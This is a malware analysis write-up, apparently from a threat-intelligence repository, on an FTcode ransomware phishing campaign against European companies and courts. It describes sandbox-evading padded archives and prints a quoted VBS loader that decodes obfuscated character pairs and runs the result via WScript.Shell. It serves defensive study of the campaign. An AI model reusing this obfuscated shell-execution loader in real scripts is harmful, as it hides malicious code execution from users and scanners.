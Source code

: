 ## FTcode targets European countries
## Table of Contents
* [Malware analysis](#Malware-analysis)
* [Cyber kill chain](#Cyber-kill-chain)
* [Indicators Of Compromise (IOC)](#IOC)
* [References MITRE ATT&CK Matrix](#Ref-MITRE-ATTACK)
* [Links](#Links)
  + [Original Tweet](#tweet)
  + [Link Anyrun](#Links-Anyrun)
  + [References](#References)

<h2>Malware analysis <a name="Malware-analysis"></a></h2>
<h6>The initial vector used by the Threat Actor is a common phishing campaign which contents, a malicious archive. This archive has a compressed composed of the vbs script and lot empty slot of data for avoid the sandbox analysis (between 40MB to 243MB).</h6>

<h6>This focus the companies and court with notification as theme of mail of phishing.</h6>
<h6> Here, some samples of mails used for the campaign and thanks to <a href="https://twitter.com/JAMESWT_MHT">JAMESWT</a> for sharing the pictures and information.</h6>

<center><img src ="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/Unknown/2020-06-22/Pictures/JMTHMail.png"></img></center>
<center><img src ="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/Unknown/2020-06-22/Pictures/Mail.png"></img></center>
<center><img src ="https://raw.githubusercontent.com/StrangerealIntel/CyberThreatIntel/master/Additional%20Analysis/Unknown/2020-06-22/Pictures/Company.png"></img></center>

<h6>Two variants of the VBS script have been observed, one perform the register action as new client to infect with the ransomware. The second use in more stealer actions by NET class. Thanks to <a href"https://twitter.com/reecdeep">reecdeep</a> for sharing some samples and information</h6>
<h6>The first variant use regular expression (regex) for parse each lines, the result is merged for be the command to execute by shell call.</h6>

```vb
Set Regex = New RegExp
Regex.Pattern = "(.+)O(.+)"
Function Decode( input)
  Data = Data + Chr( ( Build( input, "$2")) - ( Build( input, "$1")) )
End Function
Mod = 0
Data = ""
Decode  "521O633"
'[...]
Decode  "459O518"

CreateObject("WScript.Shell").Run Data, Mod
Data = ""
Function Build(a, b)
	Build = CInt( Regex.Replace(a, b))
End Function
MsgBox "Bad archive"
```
